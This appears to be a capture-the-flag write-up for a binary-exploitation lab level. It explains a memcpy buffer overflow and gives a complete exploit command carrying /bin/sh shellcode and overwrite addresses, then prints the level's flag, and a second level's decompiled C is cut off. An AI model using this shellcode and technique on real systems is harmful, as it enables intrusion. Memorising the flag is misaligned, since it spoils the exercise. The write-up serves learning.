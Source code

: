## LEVEL9 - EXPLANATION & SOLUTION


1. Buffer Overflow Vulnerability:
	- The setAnnotation() function in the binary uses memcpy() to copy user input (argv[1]) into a buffer without size validation.
	- This allows overwriting the stack, including saved return addresses, to redirect the program's execution flow.
	- The goal is to overwrite a function pointer or return address so that it points to a shellcode injected into the buffer.

2. Strategy:
	- Determine the offset to the return address using a pattern like Aa0Aa1... to find where the buffer starts to overwrite the saved return address.
	- Inject a shellcode that executes /bin/sh into the buffer.
	- Modify the return address to point to an address that dereferences the shellcode's starting location.
	- Exploit the double dereference in the binary's logic to execute the shellcode.

3. Exploit:

	- Generate a unique pattern to find the exact offset where the buffer overflows:

	```bash
	gdb run 'AAAABBBB...'
	```
	Find the faulting address in EAX, which determines the offset (108 bytes in this case).

4. Exploit
	```bash
	./level9 $(python -c 'print("\x10\xa0\x04\x08" + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80" + "A" * 80 + "\x0c\xa0\x04\x08")')
	```

	- `\x10\xa0\x04\x08`: Address of the payload (shellcode) on the heap.
	- Shellcode: A standard payload for spawning a shell.
	- `"A" * 80` padding: Fills the memory until the vtable pointer.
	- `\x0c\xa0\x04\x08`: Address where the modified vtable pointer resides.


5. GDB
	```bash
	run `python -c 'print("\x10\xa0\x04\x08" + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80" + "A" * 80 + "\x0c\xa0\x04\x08")'`
	```

## LEVEL9 - FLAG

f3f0004b6f364cb5a4147e9ef827fa922a4861408845c26b6971ad770d906728

## BONUS0 - BINARY ANALYSIS

```c
int main(void) {
	char buffer[54];

	pp(buffer);
	puts(buffer);
	return 0;
}

void pp(char *final_buffer) {
	char first_input[20];
	char second_input[20];
	char *tmp_buffer;
	unsigned int length;

```